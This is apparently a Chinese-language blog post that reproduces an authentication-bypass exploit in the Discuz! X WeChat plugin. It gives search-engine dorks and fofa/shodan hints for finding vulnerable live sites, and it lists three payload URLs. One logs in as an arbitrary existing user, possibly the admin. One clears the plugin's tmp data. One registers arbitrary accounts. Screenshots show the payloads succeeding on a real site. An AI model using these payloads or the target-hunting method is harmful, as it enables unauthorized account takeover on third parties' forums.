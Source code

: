 ## 前言

下午回到宿舍看到文章，特地复现一波  
文章来源：

https://gitee.com/ComsenzDiscuz/DiscuzX/issues/IPRUI
<https://www.sk15.net/archives/119.html>

google语法:intext:Powered by Discuz! X3.2 Licensed 扫一扫，访问微社区

## 正文

上fofa或zoomeye或shodan用语法找给dz3.4的站来测试  
![](https://s2.ax1x.com/2019/02/18/kcMOlq.png)

文章给出的payload有三个

```php 
随机登陆一个账号(登录tmp里的的第一个用户，如果admin在第一个就可以直接登admin)
/plugin.php?id=wechat:wechat&ac=wxregister&username={username}

清空tmp

/plugin.php?id=wechat:wechat&ac=unbindmp&uid={uid}&hash={csrf_hash}

注册账号

/plugin.php?id=wechat:wechat&ac=wxregister&username={username}&wxopenid=abcdefg
```
第一个payload测试

`php http://www.xxx.com/plugin.php?id=wechat:wechat&ac=wxregister&username=disjkdjsaiodasd`![](https://s2.ax1x.com/2019/02/18/kcQm7D.md.png)

返回主页刷新一下(注意右上角)  
![](https://s2.ax1x.com/2019/02/18/kcQ09s.png)

第二个payload是清空tmp的，清空后第一个payload就无法使用所以这里不测试

第三个payload是任意注册用户的

`php /plugin.php?id=wechat:wechat&ac=wxregister&username={填你自己想的用户名}&wxopenid={这里的id可以乱填}`比如下图所示：  
![](https://s2.ax1x.com/2019/02/18/kcQv8A.png)

返回主页刷新  
![](https://s2.ax1x.com/2019/02/18/kcQzvt.png)

成功注册  
![](https://s2.ax1x.com/2019/02/18/kclCb8.png)

只要安了微信插件的有可能可以